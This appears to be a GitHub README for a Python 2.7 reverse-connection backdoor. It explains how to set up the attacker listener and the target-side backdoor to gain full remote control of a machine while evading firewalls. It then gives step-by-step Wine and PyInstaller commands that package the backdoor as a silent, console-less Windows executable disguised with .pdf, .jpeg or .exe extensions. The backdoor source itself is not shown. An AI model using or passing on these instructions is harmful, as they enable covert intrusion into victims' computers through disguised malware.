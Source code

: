 # Reverse-Acess-Backdoor
It is a two-way python based program that can be used to gain full-control over the target. It uses a reverse connection from the target computer so that the firewall would not block it as suspicious port opening since it opens the port on the target machine itself and then sends the connection request to the attacker machine/control machine as well.
Note - Based on python 2.7 (python 3 variant in the works !)

## Getting Started

### Basic Usage
##### (Linux)
Steps to get your program running. 

1. Clone the repo via SSH or by download the repo as a ZIP file.
2. Extract the ZIP files. (For SSH users, skip to step 3).
3. Copy the listener program on your attacker or control machine and backdoor on your target machine. 
4. In the "listener.py" file, open with a text editor and set the ip ="<Control Machine IP Address">.
5. Modify the port field to your accordance, set it to a valid port number that is not blocked.
6. Make the same changes to the "backdoor.py" file on the target machine.
7. Run the program on the attacker machine on the linux terminal first as follows.
```
python listener.py
```
8. Repeat the previous step on the target machine but with the backdoor. 
```
python backdoor.py
```

The attacker machine will show a successfull connection confirmation on the terminal window. Use the terminal as if you were on your host machine (sudo access not yet added, although it's in the works).


### Advanced Usage
#### (Target Windows Machine)
The basic mode was just to explain how the reverse backdoor is working. The advanced impelementaion focuses on how to use this program as an exploit with target computers. Packaging is the technique that we will be using to package our python code as executables which will look like any normal program that we desire. It can be packaged with a .pdf, .jpeg, .exe or any other extension. We will only need to package the backdoor since the attacker is knowingly running the listener.

-> It is advised to package from the same OS that the backdoor will be running on.

Steps to package backdoor.

1. Install python for windows on your linux computer from the link below.
```
https://www.python.org/downloads/windows/
```
2(a). Install wine on your packaging machine. 
```
sudo apt-get install wine 
```
2(b). For 32-bit systems.
```
sudo apt-get install wine32
```
3. Unpackage using Wine(Wine is not an emulator). 
```
root@kali:~/Downloads# wine msiexec /i python-2.7.15.amd64.msi 
```
It will install wine on your Linux.

4. List your hidden wine directory. By doing the following command in your root/home directory.
```
ls -a
```
5. Enter your python.exe path for wine and install pyinstaller as follows.
This will install pyinstaller.exe to your Python27/Scripts folder.
```
wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller
```
6. Package the file as follows to an .exe program which runs silently on a windows machine. (Run this command from the folder of your python program.
``
wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe <program.py> --onefile --noconsole

## Example
### Basic Implementation


